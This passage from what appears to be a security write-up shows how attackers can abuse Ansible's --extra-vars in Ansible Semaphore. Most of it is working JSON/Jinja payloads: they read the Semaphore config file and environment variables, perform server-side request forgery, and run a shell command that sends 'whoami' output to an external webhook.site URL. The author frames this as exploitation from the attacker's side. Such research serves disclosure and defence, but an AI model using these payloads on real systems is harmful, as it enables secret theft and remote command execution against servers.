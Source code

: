 To input extra variables via the command line, the `--extra-vars` or `-e` option can be utilized. For instance: `ansible-playbook playbook.yml --extra-vars "var1=value1 var2=value2"`

The `--extra-vars` parameter is something that we, as attackers, can manipulate and potentially exploit. Here are a few examples I found that allow a malicious user to read files and configurations, perform Server Side Request Forgery (SSRF), execute commands, and establish a reverse shell.

### Retrieving Ansible Semaphore config path via environment variable

```json
{
  "date": "{{ lookup('env', 'SEMAPHORE_CONFIG_PATH') }}"
}
```

### Retrieving Ansible semaphore configuration

```json
{
  "date": "{{ lookup('file', '~/semaphore/config.json') }}"
}
```

![lookup file](/images/lookup_file.png)

### Server-side request forgery, retrieving data from remote server

```json
{
  "date": "{{ lookup('url', 'https://google.com/') }}"
}
```

![lookup url](/images/lookup_url.png)

### Retrieving environment variables

```json
{
  "date": "{{ lookup('ansible.builtin.pipe', 'env') }}"
}

```

### Out of Band Exploitation (OOB)

```json
{
  "ansible_user": "{{ lookup('ansible.builtin.pipe', \"curl https://webhook.site/22cbe5dd-bcc8-400c-8097-71f166629b25/whoami \") }}"
}

```
